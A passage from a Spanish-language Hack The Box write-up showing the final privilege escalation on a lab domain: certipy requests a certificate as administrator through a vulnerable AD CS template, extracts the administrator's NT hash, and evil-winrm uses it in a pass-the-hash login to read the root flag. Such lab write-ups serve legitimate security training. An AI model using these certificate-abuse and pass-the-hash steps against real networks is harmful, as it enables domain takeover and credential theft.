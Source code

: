 Ahora podemos pedir un certificado como administrador y obtener su hash NT:

```bash
❯ certipy req -k -no-pass -u 'ca_svc@sequel.htb' -ca SEQUEL-DC01-CA -template DUNDERMIFFLINAUTHENTICATION -ns 10.10.11.51 -dc-host dc01.sequel.htb -target dc01.sequel.htb -upn administrator@sequel.htb
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 21
[*] Successfully requested certificate
[*] Got certificate with UPN 'administrator@sequel.htb'
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'administrator.pfx'
[*] Wrote certificate and private key to 'administrator.pfx'
❯ certipy auth -pfx administrator.pfx -dc-ip 10.10.11.51 -domain sequel.htb -username administrator -no-save
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'administrator@sequel.htb'
[*] Using principal: 'administrator@sequel.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@sequel.htb': aad3b435b51404eeaad3b435b51404ee:7a8d4e04986afa8ed4060f75e5a0b3ff
```

Con esto ya podremos ir por WinRM al escritorio para tomar la última flag.

```bash
❯ evil-winrm -i dc01.sequel.htb -u administrator -H '7a8d4e04986afa8ed4060f75e5a0b3ff'
Evil-WinRM shell v3.6
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ..\Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> ls

    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        5/26/2025   3:02 AM             34 root.txt
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
a74d12446ebb0deea8a74c939b******
```

## Extra

Al inicio, el autor tenía la intención de que nosotros agregaramos un byte mágico faltante en los archivos Excel, para que así el propio Excel y otros software pudieran leerlo sin problemas. Por eso saltaba el error `bad zipfile offset (local header sig):  0` por parte del comando zip.

